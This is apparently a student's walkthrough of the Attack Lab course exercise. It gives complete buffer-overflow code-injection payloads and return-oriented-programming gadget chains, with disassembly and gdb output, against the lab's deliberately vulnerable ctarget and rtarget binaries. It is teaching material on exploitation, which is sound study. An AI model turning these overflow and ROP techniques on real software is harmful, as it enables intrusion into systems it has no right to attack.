





# Attack Lab
# Command Injection

## Phase1

Phase 1 is a simple buffer overflow where your goal is to overflow the return address of a vulnerable gets() with the address of touch1()
```
00000000004017a8 <getbuf>:
  4017a8:       48 83 ec 28             sub    $0x28,%rsp
  4017ac:       48 89 e7                mov    %rsp,%rdi
  4017af:       e8 8c 02 00 00          call   401a40 <Gets>
  4017b4:       b8 01 00 00 00          mov    $0x1,%eax
  4017b9:       48 83 c4 28             add    $0x28,%rsp
  4017bd:       c3                      ret
  4017be:       90                      nop
  4017bf:       90                      nop
  
00000000004017c0 <touch1>:
```

Buffer for getsbuf is 0x28 (40 bytes)
Touch 1 address in little endian: `c0 17 40 00 00 00 00 00`

Execution:
`./hex2raw < exploit.txt | ./ctarget -q`

```
aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd c0 17 40 00 00 00 00 00 
```



## Phase 2

`objdump -d ctarget | grep -A 10 touch2`

`objdump -d ctarget | grep -A 10 getbuf`

```
Cookie: 0x59b997fa
LE: fa 97 b9 59 00 00 00 00


mov $0x59b997fa, %rdi   # move cookie val into rdi 
```

```
donnie  archvm  /donnie/C/3/target1 ❯ gcc -c movcookie.s | objdump -d movcookie.o
movcookie.s: Assembler messages:
movcookie.s: Warning: end of file in comment; newline inserted

movcookie.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 fa 97 b9 59 	mov    $0x59b997fa,%rdi

```

```
(gdb) b *getbuf+4
(gdb) run -q
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	    sub    rsp,0x28
=> 0x00000000004017ac <+4>:	    mov    rdi,rsp
   0x00000000004017af <+7>:	    call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret
End of assembler dump.
(gdb) print /x $rsp
$3 = 0x5561dc78

LE get buff addr = 78 dc 61 55 00 00 00 00
```

```
00000000004017ec <touch2>:

LE: ec 17 40 00 00 00 00 00 
```

```
[mov cookie, rdi]   [ret]   [junk]   [addr of buf]   [addr of touch2]

      7 bytes      1 byte   32 bytes    8 bytes         8 bytes 
```

```
exploit2.txt 
48 c7 c7 fa 97 b9 59 c3 aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd 78 dc 61 55 00 00 00 00 ec 17 40 00 00 00 00 00
```

`./hex2raw < exploit2.txt | ./ctarget -q`

```
(gdb) disas
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:	sub    rsp,0x28
   0x00000000004017ac <+4>:	mov    rdi,rsp
   0x00000000004017af <+7>:	call   0x401a40 <Gets>
=> 0x00000000004017b4 <+12>:	mov    eax,0x1
   0x00000000004017b9 <+17>:	add    rsp,0x28
   0x00000000004017bd <+21>:	ret
   
(gdb) x/8gx $rsp
0x5561dc78:	0xc359b997fac7c748	0xddddccccbbbbaaaa
0x5561dc88:	0xddddccccbbbbaaaa	0xddddccccbbbbaaaa
0x5561dc98:	0xddddccccbbbbaaaa	0x000000005561dc78
0x5561dca8:	0x00000000004017ec	0x0000000000401f00

```



1. Gets writes your entire input into the buffer at 0x5561dc78                                 
2. getbuf does add rsp, 0x28 - moves %rsp back up to 0x5561dca0                                
3. getbuf's ret pops 0x5561dca0 --> that's 78 dc 61 55 --> addr of buffer --> jumps there            
4. CPU executes mov $0x59b997fa, %rdi at 0x5561dc78
5. CPU executes ret at 0x5561dc7f --> pops 0x5561dca8 --> that's ec 17 40 00 --> addr of touch2 -->  jumps there                                                                                    
6. touch2 runs with %rdi = your cookie. Done

## Phase 3

Phase 3 goal is to get the string representation of your cookie into %rdi and call touch3()
You'll need to convert your cookie character by character using `man ascii`

```
Cookie bytes: 5 9 b 9 9 7 f a
Str Repr: 35 39 62 39 39 37 66 61 00
```

```
mov $0x5561dca8, %rdi   # mov the cookie string after ret addr
push $0x004018fa
ret
```

```
00000000004018fa <touch3>:

LE: fa 18 40 00 00 00 00 00 
```

```
addr of buf:  78 dc 61 55 00 00 00 00
```

```
donnie  archvm  /donnie/C/3/target1 ❯ gcc -c movcookie2.s && objdump -d movcookie2.o
movcookie2.s: Assembler messages:
movcookie2.s: Warning: end of file not at end of a line; newline inserted

movcookie2.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:	48 c7 c7 a8 dc 61 55 	mov    $0x5561dca8,%rdi
   7:	68 fa 18 40 00       	push   $0x4018fa
   c:	c3                   	ret


```

```
48 c7 c7 a8 dc 61 55 68 fa 18 40 00 c3 aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb 78 dc 61 55 00 00 00 00 35 39 62 39 39 37 66 61 00
```



1. Gets writes input into buffer at 0x5561dc78                                                          
2. getbuf does add rsp, 0x28 — deallocates buffer, %rsp at 0x5561dca0                                   
3. getbuf's ret pops 0x5561dc78 from stack → %rsp at 0x5561dca8 → jumps to buffer start                 
4. mov $0x5561dca8, %rdi executes — %rdi now points to the cookie string sitting at 0x5561dca8          
5. push $0x4018fa — pushes touch3's address onto stack → %rsp goes down by 8                            
6. ret — pops touch3's address → jumps to touch3                                                        
7. touch3 calls hexmatch, which compares the string at %rdi with the cookie → match → PASS 


# Return Oriented Programming

## Phase 4

Look through 'rDis.s' and 'farm.c' to find the gadgets containing byte code you can use. 
```
00000000004019ca <getval_280>:
  4019ca:       b8 29 58 90 c3          mov    $0xc3905829,%eax
  4019cf:       c3                      retq   

00000000004019c3 <setval_426>:
  4019c3:       c7 07 48 89 c7 90       movl   $0x90c78948,(%rdi)
  4019c9:       c3                      retq   


4019cc 
4019c

48 89 27 = mov rdi, rax   # move rax into rdi 
c3 = ret
58 = pop rax 
c3 = ret
```

The goal here is the same as Phase 2 - get your cookie into %rdi and call touch2()

To do that, you can:
1. pop %rax (grabbing your cookie off the stack) - ret
2. mov %rax into %rdi - ret
3. go to touch2

```
[ junk (40) ][ addr of popq %rax gadget ][ cookie ][addr of movq %rax, %rdi] [addr touch2]
```

```
Cookie: 0x59b997fa
LE: fa 97 b9 59
```

```
Little Endian: addr for pop rax + cookie + addr of mov rax, rdi + addr of touch2 
cc 19 40 00 00 00 00 00
fa 97 b9 59 00 00 00 00
c5 19 40 00 00 00 00 00 
ec 17 40 00 00 00 00 00

+ 40 bytes junk

Save this string to exploit4.txt:

aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd aa aa bb bb cc cc dd dd cc 19 40 00 00 00 00 00 fa 97 b9 59 00 00 00 00 c5 19 40 00 00 00 00 00 ec 17 40 00 00 00 00 00
```

Execute:
`./hex2raw < exploit4.txt | ./rtarget -q`



 1. Gets writes input into buffer                                                                        
  2. getbuf deallocates buffer (add rsp, 0x28), %rsp now at return address                                
  3. getbuf's ret pops addr of popq %rax gadget --> jumps there                                             
  4. popq %rax pops the cookie value off the stack into %rax --> gadget's ret pops next address
  5. movq %rax, %rdi copies cookie from %rax to %rdi --> gadget's ret pops addr of touch2  
  6. touch2 runs with %rdi = cookie --> PASS


## Phase 5

Since rtarget randomizes the stack, you can't hardcode the string address. Instead, capture %rsp at runtime and add a known offset to reach the cookie string placed at the end of the exploit.

```
Cookie bytes: 5 9 b 9 9 7 f a
Str Repr: 35 39 62 39 39 37 66 61 00
```

>Gadgets I used: 
```
00000000004019ca <getval_280>:
  4019ca:	b8 29 58 90 c3       	mov    $0xc3905829,%eax
  4019cf:	c3                   	retq   
pop rax 

0000000000401aab <setval_350>:
  401aab:	c7 07 48 89 e0 90    	movl   $0x90e08948,(%rdi)
  401ab1:	c3                   	retq   
mov rsp - rax

00000000004019db <getval_481>:
  4019db:	b8 5c 89 c2 90       	mov    $0x90c2895c,%eax
  4019e0:	c3                   	retq   
mov eax - edx
0000000000401a33 <getval_159>:
  401a33:	b8 89 d1 38 c9       	mov    $0xc938d189,%eax
  401a38:	c3                   	retq   
mov edx - ecx  + cmpb %cl %cl

0000000000401a11 <addval_436>:
  401a11:	8d 87 89 ce 90 90    	lea    -0x6f6f3177(%rdi),%eax
  401a17:	c3                   	retq   
movl ecx - esi

00000000004019c3 <setval_426>:
  4019c3:	c7 07 48 89 c7 90    	movl   $0x90c78948,(%rdi)
  4019c9:	c3                   	retq  
mov rax, rdi 


00000000004019d6 <add_xy>:
  4019d6:	48 8d 04 37          	lea    (%rdi,%rsi,1),%rax
  4019da:	c3                   	retq   
add x, y
```

>Order of execution:
```
1. popq %rax → pop the offset into %rax
2. %eax → %edx → %ecx → %esi (move offset to %rsi)
3. movq %rsp, %rax → get stack pointer into %rax
4. movq %rax, %rdi → move it to %rdi
5. add_xy → %rax = %rdi + %rsi
6. movq %rax, %rdi → result into %rdi
7. ret to touch3


[junk (40)][pop rax][offset][mov eax edx][mov edx ecx][mov ecx esi][mov rsp rax]
[mov rax rdi][add xy][mov rax rdi][touch3 addr][cookie str]
```

>Addresses: 
```
Addr of touch 3: 
00000000004018fa <touch3>:

Cookie str: 
35 39 62 39 39 37 66 61 00

Convert gadgets to little endian addresses:
Junk:
aa aa aa aa bb bb bb bb cc cc cc cc dd dd dd dd aa aa aa aa bb bb bb bb cc cc cc cc dd dd dd dd aa aa aa aa bb bb bb bb 
pop rax:
cc 19 40 00 00 00 00 00 
offset:
20 00 00 00 00 00 00 00
mov eax edx:
dd 19 40 00 00 00 00 00 
mov edx ecx:
34 1a 40 00 00 00 00 00 
mov ecx esi:
13 1a 40 00 00 00 00 00 
mov rsp rax:
ad 1a 40 00 00 00 00 00
mov rax rdi:
c5 19 40 00 00 00 00 00 
add xy:
d6 19 40 00 00 00 00 00 
mov rax rdi:
c5 19 40 00 00 00 00 00 
addr touch3:
fa 18 40 00 00 00 00 00 
cookie str:
35 39 62 39 39 37 66 61 00

```

>Full exploit byte array
```
aa aa aa aa bb bb bb bb cc cc cc cc dd dd dd dd aa aa aa aa bb bb bb bb cc cc cc cc dd dd dd dd aa aa aa aa bb bb bb bb cc 19 40 00 00 00 00 00 20 00 00 00 00 00 00 00 dd 19 40 00 00 00 00 00 34 1a 40 00 00 00 00 00 13 1a 40 00 00 00 00 00 ad 1a 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 d6 19 40 00 00 00 00 00 c5 19 40 00 00 00 00 00 fa 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00
```

```
(gdb) break *0x4017b4                                                                           
(gdb) run -q < exploit5-raw.txt                                                                 
(gdb) x/20gx $rsp               
```

Below we can see our gadget addresses on the stack starting at 0x7ffffff9e578:


  - 0x4019cc - popq %rax                                                                          
  - 0x20 - offset (data, not a gadget)
  - 0x4019dd - mov eax, edx                                                                       
  - 0x401a34 - mov edx, ecx                                                                       
  - 0x401a13 - mov ecx, esi                                                                       
  - 0x401aad - mov rsp, rax                                                                       
  - 0x4019c5 - mov rax, rdi                                                                       
  - 0x4019d6 - add_xy
  - 0x4019c5 - mov rax, rdi                                                                       
  - 0x4018fa - touch3                                                                             
  - 0x6166373939623935 - cookie string ("59b997fa")


Execute: `./hex2raw < exploit5.txt | ./rtarget -q`



Execution steps:                                                                                
  1. Gets writes input into buffer                                                                
  2. getbuf deallocates buffer, %rsp at return address
  3. getbuf's ret pops addr of popq %rax gadget --> jumps there                                     
  4. popq %rax pops the offset (0x20) into %rax  --> ret pops next gadget
  5. movl %eax, %edx  --> ret pops next gadget
  6. movl %edx, %ecx (+ cmpb %cl,%cl nop)  --> ret pops next gadget
  7. movl %ecx, %esi  --> offset now in %rsi  --> ret pops next gadget
  8. movq %rsp, %rax  --> captures current stack pointer into %rax  --> ret pops next gadget
  9. movq %rax, %rdi  --> stack pointer now in %rdi  --> ret pops next gadget
  10. add_xy computes %rdi + %rsi (stack pointer + offset)  --> result in %rax  --> ret pops next gadget
  11. movq %rax, %rdi  --> %rdi now points to the cookie string  --> ret pops touch3 addr
  12. touch3 runs, compares string at %rdi with cookie  --> match  --> PASS

  
